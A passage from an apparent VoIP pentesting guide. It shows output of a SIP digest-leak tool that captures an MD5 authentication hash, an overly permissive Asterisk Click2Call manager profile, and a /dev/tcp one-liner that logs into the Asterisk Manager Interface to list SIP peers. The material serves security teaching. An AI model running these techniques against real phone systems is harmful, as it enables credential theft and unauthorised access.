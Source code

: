 ```bash
python3 sipdigestleak.py -i 10.10.0.10

[!] Target: 10.10.0.10:5060/UDP
[!] Caller: 100
[!] Callee: 100

[=>] Request INVITE
[<=] Response 100 Trying
[<=] Response 180 Ringing
[<=] Response 200 OK
[=>] Request ACK
	... waiting for BYE ...
[<=] Received BYE
[=>] Request 407 Proxy Authentication Required
[<=] Received BYE with digest
[=>] Request 200 Ok

Auth=Digest username="pepelux", realm="asterisk", nonce="lcwnqoz0", uri="sip:100@10.10.0.10:56583;transport=UDP", response="31fece0d4ff6fd524c1d4c9482e99bb2", algorithm=MD5
```

### Click2Call

Click2Call allows a **web user** (who for example might be interested in a product) to **introduce** his **telephone number** to get called. Then a commercial will be called, and when he **picks up the phone** the user will be **called and connected with the agent**.

A common Asterisk profile for this is:

```scss
[web_user]
secret = complex_password
deny = 0.0.0.0/0.0.0.0
allow = 0.0.0.0/0.0.0.0
displayconnects = yes
read = system,call,log,verbose,agent,user,config,dtmf,reporting,crd,diapla
write = system,call,agent,user,config,command,reporting,originate
```

* The previos profile is allowing **ANY IP address to connect** (if the password is known).
* To **organize a call**, like specified previously, **no read permissions is necessary** and **only** **originate** in **write** is needed.

With those permissions any IP knowing the password could connect and extract too much info, like:

{% code overflow="wrap" %}
```bash
# Get all the peers
exec 3<>/dev/tcp/10.10.10.10/5038 && echo -e "Action: Login\nUsername:test\nSecret:password\nEvents: off\n\nAction:Command\nCommand: sip show peers\n\nAction: logoff\n\n">&3 && cat <&3
```
{% endcode %}

**More information or actions could be requested.**

